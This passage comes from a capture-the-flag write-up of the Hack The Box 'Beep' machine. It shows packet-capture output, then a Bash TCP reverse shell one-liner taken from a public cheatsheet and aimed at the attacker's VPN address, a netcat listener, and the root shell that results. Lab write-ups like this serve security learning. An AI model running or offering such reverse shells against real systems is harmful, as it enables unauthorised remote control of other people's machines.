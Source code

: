 ```
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:17:42.815511 IP 10.10.10.7 > 10.10.14.36: ICMP echo request, id 2090, seq 1, length 64
21:17:42.815527 IP 10.10.14.36 > 10.10.10.7: ICMP echo reply, id 2090, seq 1, length 64
21:17:43.866894 IP 10.10.10.7 > 10.10.14.36: ICMP echo request, id 2090, seq 2, length 64
21:17:43.866898 IP 10.10.14.36 > 10.10.10.7: ICMP echo reply, id 2090, seq 2, length 64
21:17:44.864774 IP 10.10.10.7 > 10.10.14.36: ICMP echo request, id 2090, seq 3, length 64
21:17:44.864779 IP 10.10.14.36 > 10.10.10.7: ICMP echo reply, id 2090, seq 3, length 64
21:17:45.882236 IP 10.10.10.7 > 10.10.14.36: ICMP echo request, id 2090, seq 4, length 64
21:17:45.882242 IP 10.10.14.36 > 10.10.10.7: ICMP echo reply, id 2090, seq 4, length 64
21:17:46.888269 IP 10.10.10.7 > 10.10.14.36: ICMP echo request, id 2090, seq 5, length 64
21:17:46.888278 IP 10.10.14.36 > 10.10.10.7: ICMP echo reply, id 2090, seq 5, length 64
21:17:47.916738 IP 10.10.10.7 > 10.10.14.36: ICMP echo request, id 2090, seq 6, length 64
21:17:47.916745 IP 10.10.14.36 > 10.10.10.7: ICMP echo reply, id 2090, seq 6, length 64
21:17:48.942045 IP 10.10.10.7 > 10.10.14.36: ICMP echo request, id 2090, seq 7, length 64
21:17:48.942052 IP 10.10.14.36 > 10.10.10.7: ICMP echo reply, id 2090, seq 7, length 64
21:17:49.946543 IP 10.10.10.7 > 10.10.14.36: ICMP echo request, id 2090, seq 8, length 64
21:17:49.946548 IP 10.10.14.36 > 10.10.10.7: ICMP echo reply, id 2090, seq 8, length 64
21:17:50.954512 IP 10.10.10.7 > 10.10.14.36: ICMP echo request, id 2090, seq 9, length 64
21:17:50.954524 IP 10.10.14.36 > 10.10.10.7: ICMP echo reply, id 2090, seq 9, length 64
```

And we can see we are getting pings from `10.10.10.7`. This is exactly what we want to see! Now let's go ahead and try to get a reverse shell from this. I like to use the [Reverse Shell Cheatsheet](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&ved=2ahUKEwjx5umDgenwAhVYsp4KHR2GAHYQjBAwAXoECAgQAQ&url=https%3A%2F%2Fgithub.com%2Fswisskyrepo%2FPayloadsAllTheThings%2Fblob%2Fmaster%2FMethodology%2520and%2520Resources%2FReverse%2520Shell%2520Cheatsheet.md&usg=AOvVaw1muzxC_RH5YpYkyhxzEDJz) from the PayloadsAllTheThings GitHub repo. I'm going to be looking for a `Bash TCP` reverse shell since most likely they have `bash` on there and we are going to want it through the `TCP` protocol. This is what the payload looks like: `bash -i >& /dev/tcp/10.0.0.1/4242 0>&1`. We need to adjust a few things. Firstly is the IP address, we need to change `10.0.0.1` to our VPN IP address, secondly is the `4242`. We could leave it here or change it because this is just going to be the port we are listening on through our `netcat` listener. After changing that, I got the following:

```
bash -i >& /dev/tcp/10.10.14.36/443 0>&1
```

The reason why I use `443` as the port is because sometimes a machine may filter out any other port that is not the ports being hosted. Of course you're not a hacker if you don't use `port 1337` for your reverse shells (joking.. slightly.. maybe..) but in all seriousness using ports like this may help a lot in the future as some ports may be filtered. Now, I'm going to go ahead and set up my netcat listener to port 443 and hit `execute command` on the web server.

```
nc -lvnp 443
```

<p align="center">
  <img src="{{ site.github.url }}/images/htb/beep/image-20210526212328444.png" />
</p>


```
listening on [any] 443 ...
connect to [10.10.14.36] from (UNKNOWN) [10.10.10.7] 57160
bash: no job control in this shell
[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```
